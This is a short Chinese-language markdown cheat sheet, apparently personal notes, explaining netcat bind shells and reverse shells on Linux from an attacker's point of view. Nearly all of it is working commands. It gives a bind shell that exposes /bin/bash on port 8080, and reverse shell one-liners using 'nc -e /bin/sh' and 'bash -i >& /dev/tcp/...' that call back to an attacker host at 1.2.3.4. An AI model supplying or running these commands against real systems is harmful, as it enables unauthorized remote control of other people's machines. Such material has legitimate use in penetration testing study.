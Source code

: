 # linux---正向反向shell

keywords: netcat nc 正向shell 反向shell  

## 正向shell
正向shell，在被攻击机器有公网ip时使用(假设靶机ip为1.2.3.4)  

在被攻击机器上执行命令：  
```bash
nc -l -p 8080 -e /bin/bash
```
攻击者执行命令连接shell：  
```bash
nc 1.2.3.4 8080
```


## 反弹shell
反弹shell，在被攻击机器位于内网时使用，需要攻击者有一个公网ip(假设公网ip是 1.2.3.4)  

攻击者在自己机器上监听端口，等待连接：  
```bash
nc -l -p 8080
```

在被攻击机器上使用nc或bash命令连接攻击者ip：  
```bash
# nc命令示例
nc -e /bin/sh 1.2.3.4 8080
# bash命令示例
bash -i >& /dev/tcp/1.2.3.4/8080 0>&1
```


2017/9/2  
2020/6/19  
